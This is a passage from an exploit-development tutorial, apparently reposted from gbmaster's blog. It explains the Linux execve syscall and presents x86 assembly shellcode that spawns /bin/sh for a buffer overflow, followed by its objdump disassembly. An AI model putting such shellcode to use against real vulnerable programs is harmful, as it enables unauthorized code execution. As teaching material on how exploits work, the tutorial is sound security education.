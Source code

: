 原文 by [gbmaster](https://gbmaster.wordpress.com)  

The next step in the exploitation is to spawn a shell by writing a shellcode that does it and using it to exploit a buffer overflow vulnerability. To do this it is necessary to use the execve system call exported by the Linux kernel: the function is listed in the unistd.h file and it is associated to the number 11. This function transfers the execution flow to the program specified in the arguments and, unless an error during the initialization happens, never returns to the caller. The parameters required by this system call are the following:  

* Pathname of the executable in EBX
* Address of the argv vector in ECX
* Address of the envp vector in EDX (it will be NULL here)

So, a sketch of the shellcode could be the following:
``` asm
 section .data

sh_str         db '/bin/sh'
null_ptr       db 0

section .text

global _start

_start:
        mov     eax, 11        ; execve system call number
        mov     ebx, sh_str    ; address of the pathname

        push    0              ; argv[1]
        push    sh_str         ; argv[0]

        mov     ecx, esp       ; pointer to the argv vector
        xor     edx, edx       ; NULL envp
        int     0x80           ; execute execve

        mov     al, 1          ; set up an exit call, just in case
        xor     ebx, ebx
        int     0x80           ; exit(0)
```
This code spawns a shell and passes no arguments to the function itself. Objdump, please:  
```
 $ objdump -d payload -M intel

shellcode:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:       b8 0b 00 00 00          mov    eax,0xb
 8048085:       bb a0 90 04 08          mov    ebx,0x80490a0
 804808a:       6a 00                   push   0x0
 804808c:       68 a0 90 04 08          push   0x80490a0
 8048091:       89 e1                   mov    ecx,esp
 8048093:       31 d2                   xor    edx,edx
 8048095:       cd 80                   int    0x80
 8048097:       b0 01                   mov    al,0x1
 8048099:       31 db                   xor    ebx,ebx
 804809b:       cd 80                   int    0x80
```